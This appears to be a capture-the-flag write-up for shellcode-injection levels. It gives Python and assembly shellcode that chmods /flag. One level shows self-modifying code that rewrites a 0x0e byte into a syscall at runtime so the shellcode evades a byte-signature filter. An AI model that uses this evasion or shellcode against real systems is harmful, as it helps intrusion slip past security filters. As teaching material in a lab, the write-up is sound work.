 ```python
# [...] take the previous part of the code from the injection.py script of level1
shellcode = '''
    push 0x67616c66
    push rsp						
    
    pop rdi
    mov eax, 90		/* eax is the lower 32-bits of rax */
    mov esi, 0777	/* esi is the lower 32-bits of rsi */
    syscall

    mov eax, 90
    syscall
'''
shellcode = asm(shellcode)

process = subprocess.Popen([file], stdin=subprocess.PIPE, cwd="/") # we added cwd="/" here
process.communicate(shellcode)
```

## Level5

> **From the challenge description:**
> This challenge requires that your shellcode does not have any `syscall`, `sysenter`, or `int` instructions. System calls are too dangerous! This filter works by scanning through the shellcode for the following byte sequences: 0f05 (`syscall`), 0f34 (`sysenter`), and 80cd (`int`). One way to evade this is to have your shellcode modify itself to insert the `syscall` instructions at runtime.

Replace the shellcode variable in the script of **level1** with the code below:

```python
shellcode = '''
    mov rax, 90 
    lea rdi, [rip+flag]
    mov rsi, 0777
    add byte ptr [rip], 1
    .byte 0x0e
    .byte 0x05

    mov rax, 60
    add byte ptr [rip], 1
    .byte 0x0e
    .byte 0x05

flag:
    .asciz "/flag"
'''
```

Run it with `python injection.py`. This shellcode will grant you acces to the flag, so you'll be able to see it with `cat /flag`

> The syscall instruction is represented by the bytes `0x0f 0x05`. In the ` .text` section, we cannot put this in clear as it would be statically detected by the challenge. So instead we store ` 0x0e 0x05`, and use the instruction` add byte ptr [rip], 1` (or `inc byte ptr [rip]`, which also works) to increment the byte at the address of `rip`. `rip` holds the address of the next instruction to be executed, which is currently `.byte 0x0e`. The `add byte ptr [rip], 1` instruction increases this value to `0x0f`, converting it into `0x0f 0x05` — effectively the encoding for a syscall. This allows us to dynamically inject a syscall into our code.
